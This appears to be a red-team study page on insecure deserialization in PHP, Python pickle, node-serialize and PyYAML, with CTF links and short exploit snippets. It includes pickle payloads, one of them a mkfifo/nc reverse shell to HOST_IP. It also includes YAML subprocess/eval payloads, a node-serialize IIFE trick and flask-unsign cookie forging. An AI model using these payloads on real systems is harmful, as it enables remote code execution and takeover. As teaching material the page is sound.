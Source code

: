 # Insecure Deserialization

[![owasptop10](../../../../_badges/thm/owasptop10.svg)](https://tryhackme.com/room/owasptop10)
[![deserialization](../../../../_badges/owasp/deserialization.svg)](https://cheatsheetseries.owasp.org/cheatsheets/Deserialization_Cheat_Sheet.html)

<div class="row row-cols-lg-2"><div>

Insecure Deserialization is a vulnerability that occurs when the deserialization process can be exploited to run malicious code.
</div><div>
</div></div>

<hr class="sep-both">

## SerializedVariable Deserialization — PHP

[![php_deserialization](../../../../_badges/poat/php_deserialization.svg)](https://swisskyrepo.github.io/PayloadsAllTheThings/Insecure%20Deserialization/PHP/)
[![php_serialization](../../../../_badges/rootme/web_server/php_serialization.svg)](https://www.root-me.org/en/Challenges/Web-Server/PHP-Serialization)
[![php_unserialize_pop_chain](../../../../_badges/rootme/web_server/php_unserialize_pop_chain.svg)](https://www.root-me.org/en/Challenges/Web-Server/PHP-Unserialize-Pop-Chain)

<div class="row row-cols-lg-2"><div>

The [serialize](https://www.php.net/manual/en/function.serialize.php) function can be used to convert an object to a serialized string that can be loaded back using [unserialize](https://www.php.net/manual/en/function.unserialize.php).

If the serialized data is user-controlled, we may be able to:

* 🏁 Invoke defined methods using autoloading <small>(e.g. not arbitrary)</small>
* 🔫 Manipulate data to exploit the code <small>(e.g. auth-bypass)</small>

#### SerializedVariable — Data Manipulation

We may be able to bypass some checks or set some attributes.

```php!
$serialized = serialize(['user'=>'guest', 'is_admin'=>false]);
// a:2:{s:4:"user";s:5:"guest";s:8:"is_admin";b:0;}
$data = unserialize('a:2:{s:4:"user";s:5:"guest";s:8:"is_admin";b:1;}');
// ['user'=>'guest', 'is_admin'=>true]
```

This can be further exploited if there are some [logic flaws](/cybersecurity/red-team/s2.discovery/techniques/websites/logic_flaws.md#php-loose-comparison-and-type-juggling).
</div><div>

#### SerializedVariable — Program Flow Manipulation

When unserializing an object, the method `__wakeup` is automatically called. This method may contain code that may be further exploited.

While we cannot inject code directly, we may be able to create a suite of successive method calls, referred to as a **gadget chain** 🤖. It may eventually lead to a RCE. Refer to [phpggc](https://github.com/ambionics/phpggc) <small>(3.0k ⭐)</small>.

```php!
class Foo {}
class Bar
{
    public function __wakeup(): void {
        echo $this; // invoke __toString
    }

    public function __toString(): string {
        return "Bar.__toString";
    }

    // will be called when destroyed
    public function __destruct() { echo "Bar.__destruct"; }
}

$x = new Foo();      
$x->attr = new Bar();       // who cares 'attr' doesn't exist
unserialize(serialize($x)); // __wakeup will still be called
```
</div></div>

<hr class="sep-both">

## Pickle Deserialization — Python

[![unbakedpie](../../../../_badges/thm-p/unbakedpie.svg)](https://tryhackme.com/r/room/unbakedpie)
[![python_pickle](../../../../_badges/rootme/app_script/python_pickle.svg)](https://www.root-me.org/en/Challenges/App-Script/Python-pickle)

<div class="row row-cols-lg-2"><div>

The python [pickle module](https://docs.python.org/3/library/pickle.html) can be used for object serialization, while it's explicitly stated that it shouldn't be used with untrusted input.

You can either use `__reduce__` or use a function following [checkoway](https://checkoway.net/musings/pickle/) article, the latter being *sightly* more complex.

```py
class Exploit(object):
    def __reduce__(self):
        # write your code here
```

To test your exploit

```py
payload = pickle.dumps(Exploit())
pickle.loads(payload)
# base64.urlsafe_b64encode(payload)
```

You may alternatively use pickle bytecode:

* [Pickora](https://github.com/splitline/Pickora) <small>(0.1k ⭐, 2023 🪦)</small>
* [pickleassem](https://github.com/gousaiyang/pickleassem) <small>(0.01k ⭐, 2021 🪦)</small>
</div><div>

A few code samples, refer to [payloads](/cybersecurity/red-team/s3.exploitation/vulns/cheatsheet/payloads.md):

```py
        import os
        return (os.system, ("echo 'Hello, World!'",))
```

```py
        import os # doesn't work with pickle.dumps
        raise Exception(os.popen("whoami;id;pwd;ls -1a").read())
```

```py
        import os # sudo tcpdump -i tun0 icmp
        return (os.system, ("ping -c 1 HOST_IP",))
```

```py
        import os
        return (os.system, ("rm /tmp/f; mkfifo /tmp/f; cat /tmp/f|/bin/sh -i 2>&1 | nc HOST_IP PORT > /tmp/f",))
```
</div></div>

<hr class="sep-both">

## node-serialize Deserialization — Python

[![jason](../../../../_badges/thm-p/jason.svg)](https://tryhackme.com/r/room/jason)
[![node_serialize](../../../../_badges/rootme/web_server/node_serialize.svg)](https://www.root-me.org/en/Challenges/Web-Server/Node-Serialize)

<div class="row row-cols-lg-2"><div>

The [node-serialize](https://github.com/luin/serialize) <small>(0.1k ⭐, 2017 🪦)</small> library is an unofficial unmaintained library that has multiple vulnerabilities.

Data should be the only thing serialized, but this library can serialize functions, which with untrusted input, leads to RCE.

The official vulnerability is [CVE-2017-5941](https://nvd.nist.gov/vuln/detail/CVE-2017-5941).

```js!
const serialize = require('node-serialize')
const payload = {
    "poc": function () {
        // payload here
    }
}
```

For payloads, refer to [Node.js payloads](/cybersecurity/red-team/s3.exploitation/vulns/cheatsheet/payloads.md#nodejs).
</div><div>

```js!
// Serialize - but not executable yet
const serialized = serialize.serialize(payload);
// Immediately invoked function expression (IIFE) Patch
const serializedJson = JSON.parse(serialized)
for (const key in serializedJson) {
    if (serializedJson[key].includes("$$ND_FUNC$$")) {
        serializedJson[key] = serializedJson[key] + "()"
    }
}
// Serialize Again
const iife_serialized = JSON.stringify(serializedJson)
```

To execute the code:

```js!
serialize.unserialize(iife_serialized)
```

</div></div>

<hr class="sep-both">

## Example CVEs

<div class="row row-cols-lg-2"><div>

#### CVE-2021-33026 (Flask/Python)

[![owasptop10](../../../../_badges/thm/owasptop10.svg)](https://tryhackme.com/room/owasptop10)
[![flask_unsecure_session](../../../../_badges/rootme/web_server/flask_unsecure_session.svg)](https://www.root-me.org/en/Challenges/Web-Server/Flask-Unsecure-session)

An insure deserialization in Flask (Python) allowed  a hacker to craft a malicious [cookie](/programming-languages/web/_general/random/cookies.md) with a command inside. When the cookie was deserialized, the command was executed by the server.

* Cookies can be read without the secret key
* Cookies can be forged with the secret key
* [kirsle flask cookie reader](https://www.kirsle.net/wizards/flask-session.cgi) (Website)
* See also: [flask-session-manager](https://github.com/noraj/flask-session-cookie-manager) <small>(0.6k ⭐)</small> or [Flask Unsign](https://github.com/Paradoxis/Flask-Unsign)  <small>(0.4k ⭐)</small>

```shell!
$ pip3 install flask-unsign[wordlist]
$ sudo ln -s /home/<xxx>/.local/bin/flask-unsign /usr/bin/flask-unsign
$ flask-unsign --decode --cookie 'cookie'        # decode
$ flask-unsign --unsign --cookie 'cookie'        # find key
$ flask-unsign --sign --cookie '' --secret 'dev' # encode
```
</div><div>

#### Yaml Deserialization - PyYAML

[![python_yaml_deserialization](../../../../_badges/hacktricks/python_yaml_deserialization.svg)](https://book.hacktricks.xyz/pentesting-web/deserialization/python-yaml-deserialization)
[![yaml_deserialization](../../../../_badges/poat/yaml_deserialization.svg)](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure%20Deserialization/YAML.md)
[![yaml_deserialization](../../../../_badges/rootme/web_server/yaml_deserialization.svg)](https://www.root-me.org/en/Challenges/Web-Server/Yaml-Deserialization)

PyYAML version 6 and below instanciated by default an insecure parser which could be exploited to run python code.

```yaml!
xxx: !!python/object/apply:time.sleep [2]
```

The `xxx:` is only necessary if a specific element <small>(e.g., xxx)</small> is rendered.

```yaml!
!!python/object/apply:builtins.range [1,10,1]
!!python/object/apply:subprocess.Popen ["ls"]
!!python/object/apply:subprocess.check_output [['ls', '-la']]
!!python/object/apply:builtins.eval [ "5" ]
!!python/object/apply:builtins.eval [ "__import__('subprocess') or 'error'" ]
!!python/object/apply:builtins.eval [ "__import__('subprocess').check_output(['ls', '-l']).decode('utf-8') or 'error'" ]
```

➡️ See also: [python-deserialization-payload-generator](https://github.com/j0lt-github/python-deserialization-attack-payload-generator) <small>(0.1k ⭐)</small>.
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* [ysoserial](https://github.com/frohoff/ysoserial) (Java object deserialization)
</div><div>
</div></div>